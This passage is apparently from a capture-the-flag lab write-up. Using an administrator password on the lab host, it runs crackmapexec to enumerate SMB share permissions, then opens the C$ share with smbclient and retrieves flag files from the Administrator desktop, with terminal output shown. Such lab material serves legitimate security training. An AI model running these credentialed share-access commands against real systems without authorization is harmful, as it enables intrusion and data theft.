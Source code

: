 The administrator has 6 shares. Before accessing any of the shares, let’s check the permissions of each one. To do this, we’ll use the `crackmapexec` tool.

```bash
crackmapexec smb target2.ine.local -u administrator -p pineapple --shares
```

After running the command, we discover that only two shares have read and write permissions: `ADMIN$` and `C$` . Let’s connect to the SMB and We've found the third flag

```bash
┌──(root㉿INE)-[~]
└─# smbclient //target2.ine.local/C$ -U administrator                                                                                                                                    
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Sat Nov  7 13:45:59 2020
  Boot                              DHS        0  Wed Sep  9 10:08:52 2020
  bootmgr                          AHSR   408692  Wed Sep  9 10:03:42 2020
  BOOTNXT                           AHS        1  Sat Sep 15 12:42:30 2018
  Documents and Settings          DHSrn        0  Wed Nov 14 21:40:15 2018
  EFI                                 D        0  Wed Nov 14 12:26:18 2018
  flag3.txt                           A       34  Wed May 21 15:46:51 2025
  pagefile.sys                      AHS 2013265920  Wed May 21 15:45:36 2025
  PerfLogs                            D        0  Wed May 13 23:28:09 2020
  Program Files                      DR        0  Sat Nov  7 13:17:23 2020
  Program Files (x86)                 D        0  Sat Nov  7 13:17:24 2020
  ProgramData                       DHn        0  Wed Jan  1 13:47:15 2025
  Recovery                         DHSn        0  Wed Jan  1 13:54:07 2025
  Shared                              D        0  Tue Dec 31 16:59:14 2024
  System Volume Information         DHS        0  Sat Nov  7 12:06:43 2020
  Users                              DR        0  Wed Jan  1 14:00:24 2025
  Utilities                           D        0  Sat Nov  7 13:19:05 2020
  Windows                             D        0  Wed May 21 15:50:40 2025

                7863807 blocks of size 4096. 3621120 blocks available
smb: \> 

```

---

### Flag 4:

The Desktop directory might have what you're looking for. Enumerate its contents. (target2.ine.local)

For this we just have to look into the desktop directory and we found the last flag!!!

```bash
smb: \Users\Administrator\> cd Desktop
smb: \Users\Administrator\Desktop\> dir
  .                                  DR        0  Wed May 21 15:46:51 2025
  ..                                 DR        0  Wed May 21 15:46:51 2025
  desktop.ini                       AHS      282  Wed Jan  1 14:00:35 2025
  flag4.txt                           A       34  Wed May 21 15:46:51 2025

                7863807 blocks of size 4096. 3644380 blocks available
smb: \Users\Administrator\Desktop\> get flag4.txt 
getting file \Users\Administrator\Desktop\flag4.txt of size 34 as flag4.txt (4.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
smb: \Users\Administrator\Desktop\> !cat flag4.txt
740f595e341f45bfb**************
```

---